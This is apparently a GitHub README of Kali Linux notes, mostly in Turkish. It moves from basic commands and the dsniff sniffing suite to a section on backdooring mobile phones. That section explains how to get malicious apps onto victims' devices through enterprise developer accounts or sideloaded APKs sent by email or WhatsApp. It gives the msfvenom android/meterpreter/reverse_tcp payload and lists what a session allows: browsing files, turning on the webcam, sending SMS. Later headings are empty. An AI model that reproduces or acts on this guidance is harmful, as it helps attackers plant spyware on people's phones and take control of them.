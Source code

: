 # kali
Useful codes for kali linux

## Keyboard Commands
```setxkbmap tr``` -> to change keyboard language option. After shut down Kali Linux, this must be run once again because it will no more available. 

Kali Linux is case sensible.

```mkdir``` -> Creates a new folder.


```apt-get install dsniff```

dSniff is a set of password sniffing and network traffic analysis tools written by security researcher and startup founder Dug Song to parse different application protocols and extract relevant information. dsniff, filesnarf, mailsnarf, msgsnarf, urlsnarf, and webspy passively monitor a network for interesting data (passwords, e-mail, files, etc.). arpspoof, dnsspoof, and macof facilitate the interception of network traffic normally unavailable to an attacker (e.g., due to layer-2 switching). sshmitm and webmitm implement active man-in-the-middle attacks against redirected SSH and HTTPS sessions by exploiting weak bindings in ad-hoc PKI.[2] [3]

```passwd```
changes password

## Backdoor Applications


### Backdoor IOS and Android

IOS de bir uygulama yaptigimizda bunu kullaniciya ulastirmak icin elimizde cok az yol var. 
1)AppStore a koymak zorundayiz.
2)Kurban telefonunu fiziksel olarak elimize alip telefonu kablo ile MaC imize baglayip uygulamayi telefona indirebiliyoruz
3)Apple Business Developer hesabi ile uygulama ciktigimizda bunu AppStore a yuklememiz gerekmiyor. O isletmedeki belli kullanicilara uygulamayi acabiliyoruz. Bu sayede de zararli yazilimlari kullaniciya gonderebiliyoruz. 

Android - Google Play

Android de de siki denetim var. Diyelim ki bir app yazdik hem IoS hem de Android, Android e o gun yukleyebiliriz ama IoS tarafi cok inceleme yaptigindan o gun yayinlanmayabilir. Icersiinde bir backdoor uygulamasi olan app sonsuza kadar da Google paly de kalacak anlamina gelmemeli bu. Bir gun o app de silinir. Bunun yerine app i Google Play e yukleyip kullanicilara mesaj yoluyla(email, whatsapp vb) gibi gondermeyi tercih ederler Android de. 


Kullanicinin tek yapmasi gereken Google Play ayarlarinda Google Play store disindaki app lere olan izin kutusunu da acmis olmasi. Google play de app i mesaj yoluyla birilerine gonderebiliyoruz. 

Telefon icinde backdoor ureten araclardan bazilari hali hazirda Kali Linux icerisinde mevcut.

```msfvenom```
-p -- payload; Hangi isletim sistemine, hangi ortamda nasil bir saldiriyla backdoor un olusacagi belirtilir.  Andoid icin olusturacagim APK dosyasinda bu payload da belirttigimiz tum arametreler yer alacaktir. 

APK Nedir? Bir kod yazildiktan sonra Android de uygulama haline getirdigimiz son dosyadir. Windows daki .exe dosyalari gibi. 
```msfvenom``` bize bir APK cikartacak, biz de bu APK yi kullaniciya yollayacagiz, kullanici da tikladiginda bizim Kali Linux mize bir baglanti gelecek. 

#### msfvenom -p nasil kullanilir?
Ornegin Windows icin bir backdoor uygulamasi olustursaydik -p ye isletim sistemi olarak Windows u belirtecektik.
Benzer sekilde Android icin;

```msfvenom -p android/meterpreter/reverse_tcp```

```meterpreter``` bir session aracidir. Ne demek session araci? Kurban hacklendiginde bizde meterpreter adinda bir session acilacak. Session, baglanti acilmasi demek. Bu meterpreter in ozelliklerini(dosya sisteminde gezinmek, kurbanin webcamini acmak, telefonundan sms yollamak) kullanip kurbanin telefonunda istedgimiz seyleri yapabilecegiz. Kurbani hackledikten sonra yapilabilecek en iyi seylerden biri meterpreter in acik oldugundan amin olmak. 

```reverse_tcp``` ters baglaanti anlamina gelir

Backdoor larda iki secenek var;
1) Benim Kali Linux umden kurbana bir baglanti istegi yollamak; bu secenek cogu zaman Pc de veya mobile da kurbana baglanti istegi gittiginde bir firewall ya da guvenlik onlemi varsa bu cok kolay seilde fark edilebilir. 
2) reverse_tcp de ise kurban dan bize baglanti geliyor.
3)                         


### Payload

### IP Adresses

### Tunnel Service

### Create an APK

### Listening

### Signing 


### Hacking the Mobile phone
